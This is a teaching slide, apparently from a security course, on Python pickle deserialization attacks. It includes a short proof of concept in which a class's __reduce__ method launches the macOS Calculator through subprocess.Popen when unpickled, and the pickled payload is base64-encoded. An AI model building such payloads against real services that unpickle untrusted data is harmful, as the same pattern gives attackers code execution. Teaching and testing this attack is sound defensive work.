

# Serialization Exploitation: Python
Pickle encodes everything needed for deserialization, even “type” information!
An attacker can create classes that run OS commands when deserialized:

import base64, pickle, subprocess
class RunCommand(object):
   # reduce provides guidance on how to deserialize
   def __reduce__(self):
     # “when deserializing me, run a OS command!”
     return (subprocess.Popen,
             (('open', '/Applications/Calculator.app'),))
payload = base64.b64encode(pickle.dumps(RunCommand()))